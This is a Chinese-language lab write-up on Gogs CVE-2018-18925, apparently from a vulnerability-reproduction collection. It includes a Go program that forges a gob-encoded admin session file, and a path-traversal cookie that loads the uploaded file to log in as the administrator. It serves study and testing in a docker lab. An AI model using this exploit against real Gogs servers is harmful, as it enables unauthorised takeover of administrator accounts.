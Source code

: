 # Gogs 任意用户登录漏洞（CVE-2018-18925）

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

参考链接：

- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575

## 环境启动

执行如下命令启动gogs：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker compose restart`，否则session是存储在内存中的。

## 漏洞利用

使用Gob序列化生成session文件：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：

![](1.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

![](2.png)

完整的利用过程与原理，可以阅读参考链接中的文章。
